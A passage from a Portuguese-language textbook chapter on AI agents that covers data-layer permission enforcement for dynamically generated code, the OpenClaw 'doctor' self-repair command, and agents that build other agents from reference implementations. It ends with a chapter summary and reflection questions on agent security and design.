Portanto, o objetivo de segurança do software gerado dinamicamente não pode ser “garantir que a IA sempre escreva corretamente todas as verificações de permissão”. O objetivo deve ser: **mesmo que a IA escreva código incorreto, as restrições de permissão continuam impossíveis de contornar**. Se as verificações de permissão também estiverem na lógica de negócio gerada dinamicamente, elas ocuparão o mesmo domínio de confiança do código que deveriam restringir. Prompts, testes e revisão de código podem reduzir a probabilidade de erros, mas não conseguem abranger exaustivamente todos os caminhos de execução introduzidos por futuras gerações e, portanto, não constituem a fronteira final de segurança.

Uma arquitetura mais robusta **desloca a fronteira de confiança para a camada de dados**. O código da aplicação gerado dinamicamente pode cuidar da interface, dos fluxos de trabalho e da orquestração de negócio, enquanto um mecanismo estável e revisado por humanos aplica as regras que determinam quem pode fazer o quê com cada dado. A segurança em nível de linha do banco de dados pode restringir os usuários aos registros de seu próprio tenant; restrições e validadores podem rejeitar estados inválidos; e views controladas, procedimentos armazenados ou serviços de acesso a dados podem expor apenas operações autorizadas. Cada leitura e gravação também deve incluir um **contexto de acesso** vinculado por um runtime confiável, contendo a identidade do usuário, do tenant, da função ou do agente. O código gerado recebe apenas essa identidade com escopo restrito: não pode falsificá-la nem obter credenciais privilegiadas do banco de dados que permitam contornar as regras. Mesmo que omita sua própria verificação de permissão, a camada de dados ainda rejeitará a operação não autorizada.

Deslocar as verificações de permissão para uma camada inferior não significa colocar toda a lógica de negócio no banco de dados. A camada da aplicação ainda pode fazer verificações prévias para fornecer feedback imediato ao usuário, mas a camada de dados deve preservar o poder de decisão final. A mesma regra pode melhorar a experiência na camada superior e oferecer garantias na inferior. Essa garantia também exige que todos os caminhos de acesso aos dados passem pela camada de dados confiável; o código gerado não pode contorná-la e conectar-se diretamente ao banco. Desse modo, a camada superior da aplicação pode continuar mudando, enquanto as restrições de permissão inegociáveis permanecem em uma camada que não é reescrita a cada geração. Essa é a camada de dados dos guardrails de três níveis apresentados no Capítulo 1 — a mais difícil de contornar.

> **Experimento 5-15 ★★★: Objetos de dados com permissões incorporadas para software gerado dinamicamente**
>
> **Objetivo do experimento**: criar um armazenamento de objetos que permita gerar ou reescrever dinamicamente o código da aplicação, mas continue impondo permissões e integridade dos dados na camada de dados. Verificar que o código gerado não consegue transpor a fronteira estável dessa camada ao ignorar uma transição da máquina de estados, gravar um valor fora do intervalo permitido ou ler dados de outro tenant.
>
> **Abordagem técnica**: disponibilizar uma camada de middleware para armazenamento de objetos Python sobre o PostgreSQL. Os tipos de dados declaram suas regras de permissão, contexto de acesso, validadores, relações entre objetos e reações a consequências; cada leitura ou gravação de objeto passa, em sequência, pelo pipeline de permissões e validação, pela persistência, pelas verificações de integridade referencial e assim por diante.
>
> **Critérios de aceitação**: uma atualização válida do processo seletivo é realizada com sucesso; a camada de dados rejeita tentativas de ignorar uma transição de estado do candidato, gravar um salário fora da faixa do cargo ou ler dados de outro tenant.

### Código criando código: inicialização de agentes

As seções anteriores acompanharam a geração de código em diferentes domínios — do raciocínio matemático à criação de documentos e à personalização de interfaces. Se levarmos essas capacidades ao limite, surge uma pergunta natural: um agente pode usar a geração de código para criar outro agente?



**Autorrecuperação do agente: OpenClaw Doctor.**

Um pré-requisito crucial para a inicialização de agentes é a capacidade de autorrecuperação. O comando `doctor` do OpenClaw exemplifica essa capacidade: ele detecta automaticamente três tipos de problema:

- **Anomalias de configuração**: tokens OAuth expirados, formatos de configuração legados e conflitos de porta
- **Problemas de estado**: arquivos obsoletos de bloqueio de sessão e dependências de plugins ausentes
- **Problemas de integridade dos serviços**: gateway inativo e imagens de sandbox ausentes

Em seguida, ele os resolve automaticamente por meio de uma estratégia de reparo em camadas: correções seguras, como normalização da configuração e limpeza de arquivos de bloqueio, são executadas de forma automática; operações arriscadas, como reiniciar serviços e forçar a sobrescrita da configuração, exigem a confirmação do usuário.

É importante não exagerar o papel do agente nessa capacidade de autorrecuperação: problemas frequentes, como tokens expirados, arquivos de bloqueio obsoletos e conflitos de porta, têm regras claras de detecção e ações de reparo predefinidas. Por isso, `doctor` **trata primeiro esses casos com verificações determinísticas**, sem diferença essencial em relação a um script tradicional de operações. É na segunda camada que a capacidade do agente se torna relevante: diante de problemas mais difíceis, não cobertos pelas regras determinísticas, `doctor` recorre a um LLM para analisar logs de erro, compreender a semântica dos arquivos de configuração, inferir as relações causais do problema e elaborar um plano de reparo específico. As verificações determinísticas corrigem problemas comuns de maneira confiável, enquanto o LLM trata os casos complexos da cauda longa. Juntas, as duas camadas permitem que `doctor --fix` resolva automaticamente uma parcela considerável dos problemas comuns de gateway. Nesse padrão de “agente reparando agente”, o objeto de trabalho do agente deixa de ser um sistema externo e passa a ser seu próprio ambiente de execução, elevando a autorrecuperação de uma função de adaptação de sistemas a uma infraestrutura fundamental para a inicialização de agentes.

**Técnicas essenciais para fazer um agente desenvolver outro agente.**

Criar um agente de alta qualidade é muito mais difícil do que gerar código comum de aplicações, pois exige conhecimento profundo dos padrões de arquitetura de agentes, das melhores práticas e das armadilhas mais frequentes. Sem esse conhecimento especializado do domínio, mesmo os modelos mais avançados de geração de código podem criar agentes com graves falhas arquiteturais. Entre as falhas comuns estão:

1. **Gestão de contexto improvisada**: não adotar o formato-padrão de contexto discutido no Capítulo 2, converter trajetórias em texto simples e inseri-las no contexto, ignorar as otimizações do cache KV proporcionadas por mensagens estruturadas e introduzir bugs em condições de contorno nos ciclos de chamadas de ferramentas
2. **Design de ferramentas fora do padrão**: descrições vagas, ausência de orientações sobre limites de uso e listas de restrições, além de parâmetros sem exemplos concretos
3. **Escolhas tecnológicas defasadas**: tendência a usar os modelos e as APIs mais frequentes nos dados de treinamento, embora estejam desatualizados. Solução: manter uma base de conhecimento sobre o estado da arte ou fornecer ao agente recursos de pesquisa
4. **Desconexão do ecossistema externo**: uso de APIs obsoletas, bibliotecas sem manutenção ou padrões inadequados

A maneira mais eficaz de resolver esses problemas não é enumerar exaustivamente todas as regras no prompt, mas **fornecer implementações de agentes de alta qualidade como exemplos de referência**, orientando o agente de geração de código a modificá-las, em vez de começar do zero.

A vantagem da geração baseada em exemplos é evidente: o próprio código de referência incorpora as melhores práticas. Um agente que adapta uma implementação validada tem mais chances de acertar do que outro que começa do zero, pois as boas escolhas arquiteturais são preservadas naturalmente, sem que cada regra precise ser explicitada no prompt.

Quando recebe a tarefa de desenvolver um novo agente, o agente deve primeiro copiar seu próprio código — ou outra implementação validada e de alta qualidade — e, em seguida, fazer modificações específicas: ajustar o prompt de sistema à nova função, substituir, adicionar ou remover ferramentas de acordo com as novas necessidades e alterar a lógica de negócios sem modificar a estrutura arquitetural. Esse padrão de “autorreplicação com modificação adaptativa” garante que o novo agente herde as principais vantagens técnicas e, ao mesmo tempo, possa se diferenciar em aspectos específicos — como a replicação genética com mutações na biologia.

> **Experimento 5-16 ★★★: Desenvolver um agente capaz de criar agentes**
>
> **Objetivo do experimento**: construir um agente de programação com recursos de metaprogramação — isto é, capaz de escrever programas que geram ou modificam outros programas — para criar automaticamente novos sistemas de agentes de acordo com os requisitos do usuário, seguindo as melhores práticas.
>
> **Abordagem técnica**: fornecer ao agente de programação implementações de agentes de alta qualidade como exemplos de referência; o próprio projeto `ch5/coding-agent` pode ser usado. Ao receber a tarefa de criar um novo agente, ele primeiro copia esse código de referência e depois faz modificações específicas com base nas necessidades do usuário.
>
> **Critérios de aceitação**: o agente gerado deve ser executado com sucesso e concluir tarefas básicas. Verifique se ele usa formatos-padrão de mensagens e protocolos de chamadas de ferramentas, bem como os modelos e as APIs recomendados atualmente. Teste se o contexto e o estado são gerenciados corretamente ao longo de vários turnos de conversa. Compare a geração do zero com a modificação baseada em exemplos e confirme as vantagens desta última em qualidade e eficiência.
>
>
> 
>
>

## Resumo do capítulo

Ao longo deste capítulo, o argumento central foi sempre o mesmo: o código não é apenas uma ferramenta para escrever programas, mas a linguagem com que um agente formaliza seu pensamento e se expressa com precisão.

A seção sobre engenharia de harness chegou a uma conclusão central: os agentes de programação atingiram alto grau de maturidade não porque os modelos de geração de código sejam excepcionalmente avançados, mas porque décadas de infraestrutura acumulada pela engenharia de software — suítes de testes, sistemas de tipos e controle de versão — formam naturalmente um harness poderoso. Essa conclusão pode ser estendida a outros cenários de agentes. A seção sobre recuperação de falhas e erros mostra o outro lado do mesmo tema: a confiabilidade de um agente não depende de o modelo cometer erros ou não, mas da existência de caminhos correspondentes de detecção, recuperação, transferência de controle e encerramento para cada classe de falha.

A segunda parte demonstrou o amplo valor da geração de código para além da programação, nas seis dimensões apresentadas no texto principal:

- **Ferramenta de raciocínio**: uso de computação simbólica e resolução de restrições para compensar as limitações do pensamento probabilístico
- **Restrições de regras de negócios**: expressão inequívoca de regras de negócios e criação de uma barreira determinística de segurança para operações irreversíveis
- **Geração de conteúdo multimídia**: criação de conteúdo multimodal, como apresentações em PPT e vídeos, por meio de um mecanismo de proponente e revisor; a escolha entre geração de código e modelos generativos depende da complexidade intrínseca e dos requisitos de precisão do artefato
- **Adaptador de sistemas**: acompanhamento automático da evolução dos formatos para automatizar por completo a análise de logs e o diagnóstico de problemas
- **UI generativa**: criação dinâmica de formulários, visualizações e até aplicações completas e personalizáveis, superando as limitações do texto simples
- **Inicialização de agentes**: uso de código para reparar agentes existentes e criar novos, permitindo que um agente crie outros agentes

O valor do código para um agente reside no fato de ele ser, ao mesmo tempo, um meio de executar tarefas e um mecanismo para acumular conhecimento, criar ferramentas e aprimorar a si próprio — uma verdadeira “metacapacidade”.

Neste ponto, combinamos contexto, conhecimento, ferramentas e recursos de programação na arquitetura básica de um agente de propósito geral, tendo a geração de código como sua metacapacidade mais abrangente. Contudo, os cinco primeiros capítulos ainda pressupõem que o agente e o mundo agem alternadamente. O Capítulo 6 acrescentará a última peça da “construção de agentes”, ampliando os espaços de observação e ação para eventos assíncronos, voz, telas e o mundo físico. Depois disso, o Capítulo 7 passará à avaliação e ao aprimoramento contínuo.

## Questões para reflexão

1. ★★ A geração de código é chamada de “metacapacidade” do agente. No entanto, a execução de código introduz riscos de segurança: o código gerado pelo agente pode conter vulnerabilidades, entrar em loops infinitos ou esgotar recursos. O isolamento em sandbox pode reduzir parte desses riscos, mas também limita o que o código pode fazer, por exemplo, ao impedir o acesso à rede ou ao sistema de arquivos. Como encontrar o equilíbrio ideal entre segurança e capacidade?
2. ★★★ A inicialização de agentes — um agente capaz de criar agentes — viabiliza a “autorreplicação da inteligência”. No entanto, cada iteração pode introduzir novos vieses ou erros. Esses erros se acumularão ao longo das gerações? Como evitar a degradação na inicialização de agentes?
3. ★★ Ao analisar logs, um agente de geração de código pode acompanhar automaticamente a evolução dos formatos. Mas, se uma mudança de formato for um bug, e não uma alteração intencional, a adaptabilidade do agente poderá ocultar o problema. Como o agente deve distinguir entre “uma mudança que exige adaptação” e “uma anomalia que deve ser relatada”?
4. ★★ Este capítulo usa repetidamente o mecanismo de proponente e revisor na geração de apresentações em PPT, na edição de vídeos e na visualização de logs. Se as preferências estéticas do revisor divergirem das do usuário-alvo — por exemplo, se o revisor considerar razoável a densidade de informações, mas o usuário achar o conteúdo muito carregado —, o ciclo de feedback poderá convergir para o ponto ótimo local errado. Como incorporar o feedback sobre as preferências do usuário ao ciclo do revisor?
5. ★★ Este capítulo apresenta várias maneiras de um agente de programação consolidar na base de código a experiência adquirida durante a execução e a depuração: escrever arquivos da base de conhecimento, atualizar a documentação da arquitetura, manter arquivos de instruções do projeto e transformar sequências operacionais em código. Se essas experiências forem destiladas em regras no prompt de sistema, o conjunto de regras continuará crescendo com o tempo. Como fazer a “coleta de lixo” das regras acumuladas, identificando e removendo itens redundantes ou desatualizados? Por que uma única modificação de código bem-sucedida ainda não pode ser considerada evolução contínua no sentido apresentado no Capítulo 9?
6. ★ “Equipes receptivas ao trabalho remoto também costumam ser receptivas a agentes de IA.” Em termos de documentação do conhecimento, quão perto sua equipe ou organização está de estar “pronta para a IA”? Qual é o maior obstáculo?
7. ★★★ Simon Willison propôs a “tríade letal” dos agentes: acesso a dados privados, exposição a conteúdo não confiável e capacidade de comunicação externa. Este capítulo acrescentou um quarto elemento: a memória persistente. Como você criaria uma estratégia de segurança para um ambiente de produção que precise lidar simultaneamente com os quatro?
8. ★★ O padrão Artifact permite que um agente gere SQL ou código de front-end para execução direta pelo banco de dados e pelo navegador, evitando que o LLM tenha de processar grandes volumes de dados. Em comparação com o padrão tradicional, no qual o agente fornece a resposta diretamente, quais são as vantagens e desvantagens dessa divisão de trabalho — “o agente gera o código, o sistema executa o código”? Além disso, o SQL gerado pode executar operações destrutivas, e o HTML gerado pode conter vulnerabilidades. Como garantir a segurança do sistema?
9. ★★ Codificar regras de negócios como validações baseadas no ground truth do banco de dados e usar o design de parâmetros para orientar o modelo a verificar as condições das políticas antes de fazer uma chamada significa, essencialmente, usar a estrutura do código para restringir o comportamento do agente. Quais são as vantagens e limitações desse padrão de “código como regra” em comparação com regras expressas em linguagem natural?
